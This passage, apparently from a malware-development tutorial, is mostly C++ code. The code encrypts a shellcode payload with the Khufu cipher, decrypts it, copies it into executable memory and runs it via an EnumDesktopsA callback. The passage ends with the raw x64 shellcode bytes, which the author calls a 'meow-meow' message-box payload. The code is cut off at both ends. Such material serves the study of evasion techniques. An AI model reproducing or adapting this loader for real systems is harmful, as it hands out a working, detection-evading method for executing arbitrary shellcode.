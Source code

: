 ```cpp
  "\x04\x88\x48\x01\xd0\x41\x58\x41\x58\x5e\x59\x5a\x41\x58"
  "\x41\x59\x41\x5a\x48\x83\xec\x20\x41\x52\xff\xe0\x58\x41"
  "\x59\x5a\x3e\x48\x8b\x12\xe9\x49\xff\xff\xff\x5d\x49\xc7"
  "\xc1\x00\x00\x00\x00\x3e\x48\x8d\x95\x1a\x01\x00\x00\x3e"
  "\x4c\x8d\x85\x25\x01\x00\x00\x48\x31\xc9\x41\xba\x45\x83"
  "\x56\x07\xff\xd5\xbb\xe0\x1d\x2a\x0a\x41\xba\xa6\x95\xbd"
  "\x9d\xff\xd5\x48\x83\xc4\x28\x3c\x06\x7c\x0a\x80\xfb\xe0"
  "\x75\x05\xbb\x47\x13\x72\x6f\x6a\x00\x59\x41\x89\xda\xff"
  "\xd5\x4d\x65\x6f\x77\x2d\x6d\x65\x6f\x77\x21\x00\x3d\x5e"
  "\x2e\x2e\x5e\x3d\x00";

  int my_payload_len = sizeof(my_payload);
  int pad_len = my_payload_len + (8 - my_payload_len % 8) % 8;
  unsigned char padded[pad_len];
  memset(padded, 0x90, pad_len);
  memcpy(padded, my_payload, my_payload_len);

  printf("original shellcode: ");
  for (int i = 0; i < my_payload_len; i++) {
    printf("%02x ", my_payload[i]);
  }
  printf("\n\n");

  khufu_encrypt_shellcode(padded, pad_len);

  printf("encrypted shellcode: ");
  for (int i = 0; i < pad_len; i++) {
    printf("%02x ", padded[i]);
  }
  printf("\n\n");

  khufu_decrypt_shellcode(padded, pad_len);

  printf("decrypted shellcode: ");
  for (int i = 0; i < my_payload_len; i++) {
    printf("%02x ", padded[i]);
  }

  printf("\n\n");

  LPVOID mem = VirtualAlloc(NULL, my_payload_len, MEM_COMMIT, PAGE_EXECUTE_READWRITE);
  RtlMoveMemory(mem, padded, my_payload_len);
  EnumDesktopsA(GetProcessWindowStation(), (DESKTOPENUMPROCA)mem, NULL);
  return 0;
}
```

As usually I used `meow-meow` messagebox payload:    

```cpp
unsigned char my_payload[] = 
  "\xfc\x48\x81\xe4\xf0\xff\xff\xff\xe8\xd0\x00\x00\x00\x41"
  "\x51\x41\x50\x52\x51\x56\x48\x31\xd2\x65\x48\x8b\x52\x60"
  "\x3e\x48\x8b\x52\x18\x3e\x48\x8b\x52\x20\x3e\x48\x8b\x72"
  "\x50\x3e\x48\x0f\xb7\x4a\x4a\x4d\x31\xc9\x48\x31\xc0\xac"
  "\x3c\x61\x7c\x02\x2c\x20\x41\xc1\xc9\x0d\x41\x01\xc1\xe2"
  "\xed\x52\x41\x51\x3e\x48\x8b\x52\x20\x3e\x8b\x42\x3c\x48"
  "\x01\xd0\x3e\x8b\x80\x88\x00\x00\x00\x48\x85\xc0\x74\x6f"
  "\x48\x01\xd0\x50\x3e\x8b\x48\x18\x3e\x44\x8b\x40\x20\x49"
  "\x01\xd0\xe3\x5c\x48\xff\xc9\x3e\x41\x8b\x34\x88\x48\x01"
  "\xd6\x4d\x31\xc9\x48\x31\xc0\xac\x41\xc1\xc9\x0d\x41\x01"
  "\xc1\x38\xe0\x75\xf1\x3e\x4c\x03\x4c\x24\x08\x45\x39\xd1"
  "\x75\xd6\x58\x3e\x44\x8b\x40\x24\x49\x01\xd0\x66\x3e\x41"
  "\x8b\x0c\x48\x3e\x44\x8b\x40\x1c\x49\x01\xd0\x3e\x41\x8b"
```